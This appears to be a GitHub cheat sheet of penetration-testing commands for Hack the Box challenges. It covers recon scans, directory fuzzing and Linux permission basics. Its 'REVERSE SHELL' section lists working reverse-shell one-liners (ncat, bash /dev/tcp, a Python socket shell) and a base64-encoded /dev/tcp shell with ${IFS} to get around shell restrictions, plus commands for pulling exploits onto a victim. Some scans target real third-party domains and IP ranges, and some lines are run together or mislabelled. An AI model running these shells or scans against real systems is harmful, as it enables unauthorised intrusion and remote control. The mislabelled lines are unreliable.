 ## Hack the Box Reference.<br>
***<h2>Contains commands,Link and tricks for challenges</h2>***<br>
***COMMON COMMANDS***<br>
***Nmap ***<br>
•	nmap -sV -p 1-20000  -iL input.txt -oN output.txt<br>

***Subfinder(only subfinder can run large wordlist)***<br>
•	./subfinder -d freelancer.com -o output.txt<br>
***Eyewitness***<br>
•	./EyeWitness.py --headless -f hunchly_dark.txt -d output_dir1 --prepend-https <br>
•	./EyeWitness.py --web --thread 50 -f hunchly_dark.txt -d output_dir1 --prepend-https<br>
•	dnscan.py -d ubnt.com -w /SecLists/Discovery/DNS/bitquark_subdomains_top100K.txt -t 30 -o D_ubnt.txt<br>
•	masscan -p80,443,8080,9090,8081, 66.211.168.0/22 > mass_paypal.txt<br>
•	gobuster -m dns -u target.com -w $wordlist<br>
***installing tab completion***<br>
•	apt-get install bash-completion<br>
***Untar***<br>
•	tar -xvf sqlmap.tar.gz<br>
•	gzip -d file.gz<br>
•	tcpdump port 9009<br>
•	tcpdump -nni eth0 icmp<br>
•	ps -eaf | grep [w]get<br>
•	cat /proc/meminfo<br>
•	cat /proc/cpuinfo<br>
•	wfuzz.py -c -z file,commons.txt --hc 404 -o html http://www.site.com/FUZZ 2> /var/www/html/res.html<br>
•	./parameth.py -u TARGET<br>
•	python linkfinder.py -i https://example.com/1.js -o results.html<br>

***list all file in a directory with permission***<br>
ls -l /home<br>
In the above it is listing all files of home directory with permissions<br>
***list all files with hidden with permission***<br>
ls -al<br>
***show permission of directory or file***<br>
ls -ld<br>
***REVERSE SHELL***<br>

Victim: ncat -e /bin/bash {IP} {PORT}<br>
Attacker: Machine:nc -lvnp {PORT}<br>
python -m SimpleHTTPServer 9999Victim: bash -i >& /dev/tcp/{IP}/{PORT} 0>&1<br>

Attacker: Machine:nc -lvnp {PORT}<br>
Victim(Base64): echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;<br>

Attacker:nc 192.168.1.102 4444 -e /bin/sh <br>
Victim:nc -lvp 4444 <br>
Attacker:python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'<br>
Victim:nc -lvp 1234<br>

***File transfer during REVERSE SHELL***<br>
Attacker: service apache2 start<br>
place shell or exploit in /var/www/html<br>

Attacker:python -m SimpleHTTPServer 9999<br>
Victim: wget 192.168.1.102:9999/file.txt<br>
Victim: curl -O http://192.168.0.101/file.txt<br>

Attacker:nc -lvp 4444 < /root/home/exploit.txt<br>
Victim:nc 192.168.1.102 4444 > exploit.txt<br>

**masscan probe to establish the open ports in the host.**<br>
#masscan -e tun0 -p1-65535,U:1-65535 10.10.10.101 --rate=700<br>

**nmap scanning the discovered ports to see what are the services.**<br>
#nmap -sV -v -O -sS -T5 {target}<br>

**Gobuster Dir enumeration**<br>
```gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 20 -e -x php,htm,html,txt -u http://target```<br>

**bypass-bash-restrictions**<br>
https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions<br>

**Bypass shell restriction using {IFS} and Base 64 encoding**

```echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;```<br>
it means the highlighted part below is base64 encoded to bypass shell restriction<br>
echo${IFS}**bash -i >& /dev/tcp/10.10.14.94/9007 0>&1**|base64${IFS}-d|bash${IFS}-;<br>
**Understanding Linux File and directory permissions**<br>
d 	r 	w 	x 	r 	w 	x 	r 	w 	x  t<br>
Dir	    Owner 	   Group 	       Other <br>
Directory 	Read 	Write 	Execute 	Read 	Write 	Execute 	Read 	Write 	Execute <br>
t is sticky flag restricted to executed by owner
If any of these letters is replaced with a hyphen (-), it means that permission is not granted.For example <br>
drwxr-xr-x<br>
    A folder which has read, write and execute permissions for the owner, but only read and execute permissions for the group and exe for other users.<br>
-rw-rw-rw-<br>
    A file that can be read and written by anyone, but not executed at all.<br>
    
    
**Understanding Linux File and directory permissions Using Numbers**<br>
No (R) 	 (W) 	(X)<br>
0 	          No 	   No 	           No<br>
1 	          No     No 	           Yes<br>
2 	          No 	   Yes 	            No<br>
3 	          No 	   Yes 	           Yes<br>
4 	          Yes 	  No 	            No<br>
5 	          Yes 	  No 	            Yes<br>
6 	          Yes 	  Yes 	           No<br>
7 	          Yes    	Yes 	          Yes<br>

777 is the same as rwxrwxrwx<br>

755 is the same as rwxr-xr-x<br>

**Dir and File Bruteforce or enumeration**<br>
*WFUZZ*<br>
wfuzz -c -z file,/root/SecLists/Discovery/Web-Content/common.txt --hc 404,400 -X GET -u http://10.10.10.160/FUZZ<br>
